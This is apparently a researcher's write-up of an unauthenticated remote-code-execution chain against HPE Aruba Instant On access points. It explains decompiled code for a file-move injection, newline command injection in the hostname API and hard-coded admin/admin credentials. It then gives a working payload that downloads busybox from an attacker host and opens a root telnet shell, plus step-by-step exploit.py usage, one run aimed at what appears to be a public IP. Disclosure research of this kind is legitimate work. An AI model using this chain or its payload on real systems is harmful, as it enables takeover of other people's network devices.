


# HPE Aruba instant-on Access Points series Unauthorized RCE vulnerability

## 1 Basic device information

### 1.1 Product official website

https://instant-on.hpe.com/products/access-points/

### 1.2 Currently known to affect products

```
AP11
AP12
AP21
AP22
AP22D
AP25
AP27
AP32
```

### 1.3 Some special information about the product

My device is AP21.<br>
The AP21 series is intended for small businesses.<br>
Access Points for the AP21 series are managed through the cloud at https://portal.instant-on.hpe.com/.<br>
The firmware of this AP21 series is the latest, because it is synchronized through the cloud, and device users cannot update their own devices.<br>
The latest firmware version is 3.1.0.0.<br>
Device users can access only a simple WEB page (as shown in the following figure) to view device information, and cannot perform any management or login operations.<br>


## 2 Vulnerability exploitation process

The exploitation chain mainly contains three vulnerabilities, plus some tips for exploiting vulnerabilities, and finally obtaining the root shell of the device.<br>
The vulnerabilities include the following three:

```
1. Unauthorized file movement vulnerability
2. Any management command execution vulnerability after login
3. Hard-coded login credentials are vulnerable
```

Some exploits tips:

```
1. Set the transmission rate of the http server to win the competition condition
2. Overwrite the sh script file to execute system commands
```

Vulnerability exploitation flowchart:<br>
Here is a simplified version of the road map, see the detailed process in Section 4.<br>


## 3 Vulnerability details

### 3.1 Unauthorized arbitrary file movement vulnerability

This vulnerability does not require a login.<br>
The vulnerability is in the file /aruba/bin/swarm.cgi:

```
int __fastcall sub_13C50(int a1)
{
	******
	opcode = GetCGIParam(dword_5CCFC, "opcode");
	******
	if ( !strcmp(opcode, "i18n-upload") )
    {
      lang = GetCGIParam(dword_5CCFC, "lang");
      xml_type = GetCGIParam(dword_5CCFC, "xml_type");
      modern_ui = GetCGIParam(dword_5CCFC, "modern_ui");
      if ( modern_ui
        && (syslog(7, "%s, %d, modern_ui is %s'", "opcode_i18n_upload", 1166, modern_ui), !strcmp(modern_ui,"modern_ui")) )
      {
        syslog(7, "%s, %d, process modern'", "opcode_i18n_upload", 1170);
        v53 = process_i18n_modern(lang, xml_type);
      }
      else
      {
        syslog(7, "%s, %d, process classic'", "opcode_i18n_upload", 1173);
        v53 = process_i18n_classic(lang, xml_type);
      }
      goto LABEL_323;
    }
    ******
}
```

When the opcode argument is equal to i18n-upload, different handlers are entered depending on the value of the modern_ui argument.<br>
The vulnerability occurs in the process_i18n_modern function, so we make the modern_ui argument equal to modern_ui.<br>
Enter the process_i18n_modern function:

```
int __fastcall process_i18n_modern(const char *lang, const char *xml_type)
{
  ******
  while ( 1 )
  {
    v3 = strncmp(lang_global_list[v6], lang, 2u);		【1】
    if ( !v3 )
      break;
    if ( ++v6 == 13 )
    {
      v3 = 0;
      printf("%s", "<re><error>Error language type!</error></re>");
      unlink(upload_file_byte_5CCBC);
      return v3;
    }
  }
  snprintf(v10, 0x100u, "gzip %s", upload_file_byte_5CCBC);
  if ( execute_command_status_no_io(v10, "/dev/null", "/dev/null") )
    return -1;
  memset(v10, 0, sizeof(v10));
  if ( !strcmp(xml_type, "ui") )
  {
    if ( sub_17BB8("/etc/httpd/i18n/localization/", lang, s, 256) )
      snprintf(v10, 0x100u, "mv -f %s.gz /etc/httpd/i18n/localization/%s.gz", upload_file_byte_5CCBC, lang); 【2】
    else
      snprintf(v10, 0x100u, "mv -f %s.gz /etc/httpd/i18n/localization/%s", upload_file_byte_5CCBC, s);
  }
  else
  {
    v7 = sub_17BB8("/etc/httpd/i18n/help/", lang, s, 256);
    v8 = v7 ? "mv -f %s.gz /etc/httpd/i18n/help/%s.gz" : "mv -f %s.gz /etc/httpd/i18n/help/%s";
    if ( v7 )
      snprintf(v10, 0x100u, v8, upload_file_byte_5CCBC, lang);
    else
      snprintf(v10, 0x100u, v8, upload_file_byte_5CCBC, s);
  }
  syslog(7, "%s: %d: executing '%s'", "process_i18n_modern", 1142, v10);
  if ( execute_command_status_no_io(v10, "/dev/null", "/dev/null") ) 【3】
  ******
}
```

The most critical flaw is in **[1]**, where strncmp only compares the first two characters of the lang parameter.<br>
This means that we can enter **[2]** as long as the first two characters meet the conditions.<br>
**[2]** concatenates the lang argument into the mv command line and executes it at **[3]**.<br>
This means that we can implement unauthorized movement of arbitrary files within the system by setting the malicious lang parameter.<br>
### 3.2 Any management command execution vulnerability after login

A single intra-system arbitrary file movement vulnerability is not enough to get the root shell of a device.<br>
So I kept looking for new vulnerabilities.<br>
Finally, a post-login arbitrary administrative command execution vulnerability was found.<br>
The vulnerability is in the file /aruba/bin/swarm.cgi:

```
int __fastcall sub_13C50(int a1)
{
	******
	opcode = GetCGIParam(dword_5CCFC, "opcode");
	******
	if ( !strcmp(opcode, "rest") )
    {
      puts("Content-Type: application/json");
      puts("Strict-Transport-Security: max-age=31536000");
      puts("X-XSS-Protection: 1; mode=block");
      puts("X-Content-Type-Options: nosniff");
      printf("%s\r\n\r\n", "Accept: application/json");
      if ( !strcmp(v52, "POST") ){
         opcode_rest_post_handle(
            v227,
            dword_5CCFC[0],
            dword_5CCFC[1],
            dword_5CCFC[2],
            qword_5CD08,
            unk_5CD10,
            unk_5CD14,
            qword_5CD18,
            unk_5CD20,
            unk_5CD24);
          goto LABEL_98;
        }
     }
	******
}
```

The opcode_rest_post_handle function is entered when the value of the opcode argument is equal to rest

```
void opcode_rest_post_handle(_DWORD *a1, ...)
{
  ******
  api = GetCGIParam(va, "api");
  v3_api = api;
  ******
  v7 = GetCGIParam(va, "sid");
  v8 = GetCGIParam(va, "json_str");
  v9 = cJSON_Parse(v8);
  v10 = v9;
  if ( v9 )
  {
    if ( v5 == 2 )
    {
      rest_api_logout_handler(v3_api, 2, v9, a1);
      return;
    }
    if ( is_vaild_config_api(v3_api) )
    {
      if ( am_i_master_iap() )
      {
        rest_api_config_handler(v3_api, v5, v10, a1, v7);
        return;
      }
      snprintf(s, 0x100u, "Configuration API /rest/%s is not allowed on member IAP", v3_api);
      syslog(4, "%s: Configuration API /rest/%s is not allowed on member IAP", "opcode_rest_post_handle", v3_api);
    }
    else
    {
      if ( is_vaild_action_api(v3_api) )
      {
        rest_api_action_handler(v3_api, v5, v10, a1, v7);
        return;
      }
  ******
}
```

Our goal is to enter the rest_api_action_handler function, as long as the api argument satisfies is_vaild_action_api function conditions, I have let the api argument value is hostname.<br>
The is_vaild_action_api function is to ensure that only the administration commands in the whitelist are executed, and the hostname administration command is one of them.<br>
Continue to the rest_api_action_handler function:

```
void __fastcall rest_api_action_handler(const char *a1, int a2, int a3, _DWORD *a4, int a5)
{
	******
	    if ( a2 == 6 )
        {
          v12 = cJSON_GetObjectItem(a3, "hostname_info");
          if ( v12 )
          {
            v13 = cJSON_GetObjectItem(v12, "hostname");
            if ( v13 )
            {
              if ( *(v13 + 12) == 4 )
              {
                hostname = *(v13 + 16);
                if ( *hostname )
                {
                  v15 = snprintf(cli_cmd, 0x400u, "hostname %s\n", hostname); 【1】
                  v16 = "prepare_hostname_cmd";
                  goto LABEL_78;
                }
              }
            }
            snprintf(v59, 0x100u, "Input parameter %s is Missing or its value is invalid", "hostname");
            v17 = "prepare_hostname_cmd";
            goto LABEL_32;
          }
          v18 = "hostname ";
          goto LABEL_80;
        }
   ******
  LABEL_78:
      syslog(7, "%s: cmd: %s", v16, cli_cmd);
      if ( (v15 + 1) > 1 )
      {
        send_papi_execute_action_cmd(a4, a5, *(v10 + 16), cli_cmd); 【2】
      }
   ******
}
```

It can be seen that **[1]** will concatenate the value of the hostname parameter into the hostname management command, and finally enter **[2]** to execute the hostname management command.<br>
However, the hostname attacker is controllable, and the administrative commands are separated by \n, which means that we can construct malicious hostname parameters to execute arbitrary administrative commands.<br>
For example, construct the following malicious hostname parameter:

```
1\nupgrade-modem+http://10.0.4.54:8000/debug_modem_sw\n
```

Two administrative commands are executed:

```
hostname 1
upgrade-modem http://10.0.4.54:8000/debug_modem_sw
```

.<br>
The reason we executed the admin command was because we needed to download arbitrary files to the device to match the first arbitrary file movement vulnerability we discovered.<br>
The **upgrade-modem** management command can download any file to the **/tmp/modem_img directory** on the system

### 3.3 Hard-coded login credentials vulnerability

The arbitrary file download vulnerability is a post-login vulnerability, so a login bypass vulnerability needs to be found.<br>
But the AP21 series actually only has a simple page for viewing information, and no login page.<br>
But looking at the code in the /aruba/bin/swarm.cgi file, you can see the login api:

```
int handle_rest_login(_DWORD *a1, ...)
{
  ******
  va_start(va, a1);
  v2 = GetCGIParam(va, "json_str");
  memset(s, 0, 0x2800u);
  memset(v18, 0, sizeof(v18));
  v3 = cJSON_Parse(v2);
  v4 = v3;
  if ( !v3 )
  {
    strcpy(v18, "Error in parsing input JSON parameters");
    syslog(3, "%s: %s (%s)", "handle_rest_login", v18, v2);
    v5 = 0;
    goto LABEL_27;
  }
  v6 = cJSON_GetObjectItem(v3, "user");
  ******
  v8 = cJSON_GetObjectItem(v4, "passwd");
  ******
  if ( !v10 )
  {
    v11 = login_handle(a1, v7, v9, s);
    if ( v11 == 3 )
    {
      v12 = aruba_ip_to_str(*a1, a1[1], a1[2], a1[3], a1[4]);
      syslog(3, "%s: REST-API User %s IP %s login successfully", "handle_rest_login", v7, v12);
      if ( !sub_1ED90(s, v18, 0x100u) )
      {
        v5 = 1;
        goto LABEL_27;
      }
      goto LABEL_25;
    }
  ******
}
```

Just when I thought my research was over, I tried calling the login api with **admin/admin** and successfully returned sid!<br>
So we found a hard-coded login credentials vulnerability that applies to all AP21 series.<br>
## 4 Vulnerability exploitation

Now let's start combining all the vulnerabilities to get the root shell of the device.<br>
### 4.1 Upload any file

Run the upgrade-modem management command to upload any file to the /tmp/modem_img directory of the system.<br>
The arbitrary file movement vulnerability can be exploited to move files in the /tmp/modem_img directory anywhere on the device.<br>
This allows you to upload any file to any location in the system.<br>
.<br>
There is a small problem. After the upgrade-modem management command uploadfiles, the files are deleted immediately, leaving no time to move them.<br>
Therefore, I implemented an http server in python to control the file transfer rate, so that after the upgrade-modem management command was executed to upload the file, the file would take a long time to download.<br>
This gives us plenty of time to move the files.<br>
### 4.2 Execute any system command

We can already upload any file anywhere on the system.<br>
.<br>
Let's start with a bit of code in the /aruba/bin/usb_modem_debug file:

```
#!/bin/sh

******

if [ -f /etc/init.d/auto_sw_funcs ]; then
    . /etc/init.d/auto_sw_funcs
fi
```

When executing the /aruba/bin/usb_modem_debug script file, sh is used to execute the command in the /etc/init.d/auto_sw_funcs file if the /etc/init.d/auto_sw_funcs file exists.<br>
Then we can upload a malicious /etc/init.d/auto_sw_funcs into the system.<br>
.<br>
Let's take another look at the code in the /aruba/bin/cli file:

```
int __fastcall show_log_usb_cli(int a1, int a2, int a3, _DWORD *a4)
{
  ******
  if ( !access("/tmp/debug_modem_sw", 0) )
  {
    system("/aruba/bin/usb_modem_debug");
    v12 = Parse_PAPI_Packet_0_3_17_2_0_5_0_0("/tmp/modem.log");
    if ( !v12 )
      v12 = strdup("modem log not available");
    fprintf(v6, "%s\n", v12);
    free(v12);
    unlink("/tmp/modem.log");
    unlink("/tmp/debug_modem_sw");
  }
  return 0;
}
```

The show_log_usb_cli function is called when the show log usb management command is executed.<br>
When the /tmp/debug_modem_sw file exists in the system, the /aruba/bin/usb_modem_debug script file is executed.<br>
Then we can upload a malicious /tmp/debug_modem_sw to the system.<br>
.<br>
Combined with this information, you can eventually execute arbitrary system commands.<br>
### 4.3 Vulnerability exploitation process

**Step 1**: Upload /tmp/debug_modem_sw file<br>
 (hard-coded login credentials vulnerability + arbitrary administrative command execution vulnerability after login + Unauthorized arbitrary file movement vulnerability + win race condition)<br>
**Step 2:** Upload the /etc/init.d/auto_sw_funcs file<br>
(hard-coded login credentials vulnerability + arbitrary administrative command execution vulnerability after login + unauthorized arbitrary file movement vulnerability + win race condition)<br>
**Step 3**: Execute the /aruba/bin/usb_modem_debug script<br>
 (hard-coded login credentials vulnerability + arbitrary administrative command execution vulnerability after login)<br>
.<br>
The command I execute in the auto_sw_funcs file is:<br>
This command can be modified in the exploit_httpserver.py file<br>

```
exploit_cmd = '''
wget http://%s:8888/busybox -O /tmp/busybox;chmod +x /tmp/busybox;/tmp/busybox telnetd -p 22222 -l sh
''' % get_host_ip()
```

This command will open a telnetd port within the device, enter the device and run /tmp/busybox id to see that we have obtained the root shell.<br>
```
/tmp # /tmp/busybox id
uid=0(root) gid=0(root)
```

## 5 Script use

**Step 1:**  Open a new command line terminal under the exploit file and execute the following command

```
python exploit_httpserver.py --exploit_http_server_ip=10.0.4.54
```

exploit_http_server_ip is the ip of the http server server,the value must be a server address accessible to the public network<br>
This step is to start an http server server with a slow transfer rate<br>
**Step 2:**  Open a new command line terminal under the exploit file and execute the following command

```
python3 -m http.server 8888
```

This step is to start an http server server for the device to download the busybox file<br>
**Step 3:**  Open a new command line terminal under the exploit file and execute the following command
```
python exploit.py --aruba_ap_ip=10.0.4.102 --action=exploit --exploit_http_server_ip=10.0.4.54
python exploit.py --aruba_ap_ip=118.163.110.217 --action=exploit --exploit_http_server_ip=123.60.137.236
```

aruba_ap_ip indicates the ip address of the target device to be exploited<br>
exploit_http_server_ip is the ip of the http server server<br>
action defaults to exploit<br>
Wait quietly for exploit.py to finish executing, then proceed to step 4<br>
**Step 4:** Open a new command line terminal under the exploit file and execute the following command

```
telnet (aruba_ap_ip) 22222
```

This command can be used to log into the root shell of the target device.